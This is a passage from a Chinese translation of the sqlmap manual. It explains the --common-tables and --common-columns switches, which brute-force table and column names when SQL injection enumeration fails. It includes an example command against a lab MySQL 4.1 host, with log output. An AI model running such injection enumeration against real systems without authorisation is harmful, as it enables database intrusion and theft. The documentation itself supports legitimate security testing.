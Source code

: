 ## 暴力破解

以下开关可用于暴力破解检查。

### 暴力破解表名

开关：`--common-tables`

在某些场景下，开关 `--tables` 并不能用于获取数据库中表的名称。这样的场景通常会在如下情况下发生：

* DBMS（Database Management System，数据库管理系统）是 **< 5.0** 版本的 MySQL，它们不具备 `information_schema`。
* DBMS 是微软的 Access 数据库，并且其中的系统表 `MSysObjects` 默认设置不可读。
* 当前会话用户对 DBMS 中存储数据表定义的系统表没有读权限。

如果出现前面两个场景中的任意一个，并且你开启了 `--tables` 开关，sqlmap 则会提示你是否使用暴力破解技术。因而，就算出现上面两个场景之一，只要你开启了 `--common-tables`，sqlmap 仍然可以识别出部分系统数据表。sqlmap 会尝试对系统表进行暴力破解，试图找出 DBMS 中存在的常见数据表。

常见的数据表名列表存储在 `txt/common-tables.txt`，支持用户进行任意修改。

针对 MySQL 4.1 目标的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --commo\
n-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:    '4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/tx
t/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```

### 暴力破解列名

开关：`--common-columns`

对于任意数据表，可能存在开启了开关 `--columns` 之后仍不能够获取数据库表的列名的情况。这样的场景通常会在如下情况下发生：

* DBMS 是 **< 5.0** 版本的 MySQL，它们不具备 `information_schema`。
* DBMS 是微软的 Access 数据库，相对应的列名信息在数据库系统表中不存在。
* 当前会话用户对 DBMS 中存储数据表定义的系统表没有读权限。

如果出现前面两个场景中的任意一个，并且你开启了 `--columns` 开关，sqlmap 则会提示你是否使用暴力破解技术。因而，就算出现上面两个场景之一，只要你开启了 `--common-columns`，sqlmap 仍然可以识别出部分系统数据表。sqlmap 会尝试对系统表进行暴力破解，试图找出 DBMS 中存在的常见数据表列名。

常见的数据表名列表存储在 `txt/common-columns.txt`，支持用户进行任意修改。
